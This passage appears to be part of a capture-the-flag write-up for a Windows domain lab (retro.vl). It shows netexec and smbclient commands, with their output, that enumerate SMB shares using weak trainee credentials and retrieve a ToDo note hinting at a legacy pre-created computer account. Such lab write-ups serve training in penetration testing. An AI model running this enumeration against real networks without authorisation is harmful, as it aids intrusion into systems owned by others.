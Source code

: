 ### Authenticated Share Access

```
netexec smb 10.10.83.167 -u 'trainee' -p 'trainee' --shares

SMB         10.10.83.167    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC               [+] retro.vl\trainee:trainee
SMB         10.10.83.167    445    DC               [*] Enumerated shares
SMB         10.10.83.167    445    DC               Share           Permissions     Remark
SMB         10.10.83.167    445    DC               -----           -----------     ------
SMB         10.10.83.167    445    DC               ADMIN$                          Remote Admin
SMB         10.10.83.167    445    DC               C$                              Default share
SMB         10.10.83.167    445    DC               IPC$            READ            Remote IPC
SMB         10.10.83.167    445    DC               NETLOGON        READ            Logon server share
SMB         10.10.83.167    445    DC               Notes           READ
SMB         10.10.83.167    445    DC               SYSVOL          READ            Logon server share
SMB         10.10.83.167    445    DC               Trainees        READ

```

With authenticated access, we can now read the `Notes` share, which was previously inaccessible.

### Critical Intelligence from Notes Share

```
smbclient \\\\10.10.83.167\\Notes -U 'trainee'

Password for [WORKGROUP\trainee]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jul 24 00:03:16 2023
  ..                                DHS        0  Wed Jul 26 11:54:14 2023
  ToDo.txt                            A      248  Mon Jul 24 00:05:56 2023

                6261499 blocks of size 4096. 2869495 blocks available
smb: \> get ToDo.txt
getting file \ToDo.txt of size 248 as ToDo.txt (1.3 KiloBytes/sec) (average 1.3 KiloBytes/sec)
```

```
Thomas,
after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best
James
```

This document provides crucial intelligence about a `pre-created computer account` associated with the banking software. This likely refers to the `BANKING$` computer account discovered earlier, and suggests it may be configured with legacy security settings.

---